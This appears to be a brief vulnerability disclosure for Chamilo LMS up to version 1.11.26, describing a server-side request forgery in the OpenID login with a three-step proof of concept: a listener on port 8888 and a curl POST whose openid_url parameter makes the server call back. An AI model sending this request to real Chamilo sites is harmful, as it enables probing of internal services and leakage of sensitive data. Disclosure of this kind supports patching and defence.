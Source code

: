 ### Chamilo-lms

- **Application**: chamilo-lms <=1.11.26
- **Threat Impact**: Sensitive data leakage
- **POC**:
  1. Listen on 8888 on server side
  1. `curl -X POST http://site/index.php -d "openid_url=http%3A%2F%2Flocalhost%3A8888&submit=&_qf__openid_login="`
  1. Receive a request on server side. 



